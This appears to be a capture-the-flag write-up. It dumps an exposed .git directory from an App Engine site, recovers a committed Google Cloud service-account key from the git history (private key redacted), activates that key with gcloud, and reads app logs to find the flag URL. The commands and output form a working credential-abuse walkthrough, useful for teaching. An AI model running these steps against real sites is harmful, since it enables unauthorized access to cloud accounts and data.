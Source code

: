 
url is https://booming-cosine-304921.wl.r.appspot.com/

robots.txt has:
```
User-agent: * 
Disallow: /.git/*
```

using gitdumper.sh <https://github.com/internetwache/GitTools/blob/master/Dumper/gitdumper.sh>

output to folder and go to folder

output from:
```git log``` 

show 2 commits:

```
$ git log
commit 8170c6c35cccffe0f9e2715fd7b81c832e5d9fd1 (HEAD -> master)
Author: corgi <corgi@corgiwoofwoof.com>
Date:   Fri Mar 5 19:55:42 2021 -0800

    clean up complete

commit 543e9d358dbd4276da5277291624d16fb8b9d56a
Author: corgi <corgi@corgiwoofwoof.com>
Date:   Fri Mar 5 19:55:00 2021 -0800

    remove this later
```

first one is potentially sensitive:

```
$ git show 543e9d358dbd4276da5277291624d16fb8b9d56a
commit 543e9d358dbd4276da5277291624d16fb8b9d56a
Author: corgi <corgi@corgiwoofwoof.com>
Date:   Fri Mar 5 19:55:00 2021 -0800

    remove this later

diff --git a/booming-cosine-304921-5327fdaff786.json b/booming-cosine-304921-5327fdaff786.json
new file mode 100644
index 0000000..a440f42
--- /dev/null
+++ b/booming-cosine-304921-5327fdaff786.json
@@ -0,0 +1,12 @@
+{
+  "type": "service_account",
+  "project_id": "booming-cosine-304921",
+  "private_key_id": "5327fdaff786b034f9dc37834326fd83dfa1d972",
+  "private_key": "<REDACTED>",
+  "client_email": "shout-into-void-sa@booming-cosine-304921.iam.gserviceaccount.com",
+  "client_id": "107706400735285344688",
+  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
+  "token_uri": "https://oauth2.googleapis.com/token",
+  "auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
+  "client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/shout-into-void-sa%40booming-cosine-304921.iam.gserviceaccount.com"
+}
```

get information and save it as .json file (```/shout-void.json```)

.json file is used for auth as a serviceaccount in gcloud <https://cloud.google.com/sdk/gcloud/reference/auth/activate-service-account>

using docker image for gcloud CLI to avoid installing stuff

```
docker run -it --entrypoint=/bin/bash -v $PWD/shout-void.json:/tmp/auth.json gcr.io/google.com/cloudsdktool/cloud-sdk:latest
```

inside the container:
```
gcloud auth activate-service-account --key-file=/tmp/auth.json
gcloud auth list
gcloud config set account shout-into-void-sa@booming-cosine-304921.iam.gserviceaccount.com
gcloud config set project booming-cosine-304921
```

getting logs from the app
```
gcloud app logs read
```

some requests showing potential flag file path:

```
2021-03-09 21:56:00 default[20210306t171812]  "GET /send?message=https%3A%2F%2Fstorage.googleapis.com%2Fshout-into-void%2F1574AB2CB00533975094D87814BCF8FA707FD608-flag.txt HTTP/1.1" 200
```

flag is in ```https://storage.googleapis.com/shout-into-void/1574AB2CB00533975094D87814BCF8FA707FD608-flag.txt```

